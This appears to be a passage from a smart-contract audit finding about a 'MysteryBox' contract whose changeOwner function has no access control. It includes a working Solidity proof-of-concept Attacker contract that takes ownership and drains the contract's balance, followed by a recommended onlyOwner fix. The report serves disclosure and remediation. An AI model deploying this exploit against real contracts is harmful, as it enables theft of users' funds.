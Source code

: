 # Deploy this Exploit code with remix IDE Using \`MysteryBox\` contract address, Then run the attack function.

* **Step 1:** Attacker calls the `changeOwner` function, passing their own address as the new owner.
* **Step 2:** Now as the new owner, the attacker calls `withdrawFunds` to drain the contract balance.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;


interface MyRewardContract {
     function withdrawFunds() external ;
    function changeOwner(address _newOwner) external ;

}

contract Attacker {

    MyRewardContract public target;

    constructor(address _target) {
        target = MyRewardContract(_target);
    }

    function attack() external {
        target.changeOwner(address(this));
        target.withdrawFunds(); 

    }

    function withdraw() external {
        payable(msg.sender).transfer(address(this).balance);
    }
    receive() external payable {}
}
```
## Tools Used

## Recommendations

To fix the vulnerabilities, add proper access control to the `changeOwner` function and ensure only the current owner can transfer ownership.

* **Code Fix Example:** Add an `onlyOwner` modifier to restrict access to the `changeOwner` function.

```solidity
modifier onlyOwner() {
    require(msg.sender == owner, "Caller is not the owner");
    _;
}

function changeOwner(address _newOwner) public onlyOwner {
    require(_newOwner != address(0), "New owner can't be a zero address");
    owner = _newOwner;
}
```
